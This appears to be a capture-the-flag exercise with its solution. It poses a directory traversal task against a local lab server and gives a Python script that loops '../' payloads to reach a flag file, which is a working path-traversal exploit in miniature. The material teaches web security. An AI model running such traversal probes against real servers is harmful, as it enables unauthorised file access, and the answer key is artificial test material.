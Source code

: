 # 📂 Getting Access - L08 C03
Ok, now things are getting serious. We have agents aboard a probe and they've used a key to gain physical access to the mothership. Now inside, they've been able to connect to a page on the motherships main server which controls all the human technology they've been using. We think it's vulnerable to directory traversal, and we want to use that vulnerability to gain root access.

The page is at http://127.0.0.1:8082/humantechconfig?file=human.conf, write a script which will attempt various levels of directory traversal to give you access to the root directory.

**Tip:** Get to the root directory and the HTTP response will contain the flag.

```
💡 Hint: The directory traversal is in the form:
   127.0.0.1:8082/humantechconfig?file=../human.conf
```

## Answer

```python
#
# There is a directory traversal vulnerability in the
# following page http://127.0.0.1:8082/humantechconfig?file=human.conf
# Write a script which will attempt various levels of directory
# traversal to find the right amount that will give access
# to the root directory. Inside will be a human.conf with the flag.
#
# Note: The script can timeout. If this occurs try narrowing
# down your search

import urllib.request

trav = '../'
file = 'human.conf'
website = 'http://127.0.0.1:8082/humantechconfig?file='

for i in range(1, 11):
  payload = trav * i + file
  payload = website + payload
  
  resp = urllib.request.urlopen(payload)
  print(resp.read())
```
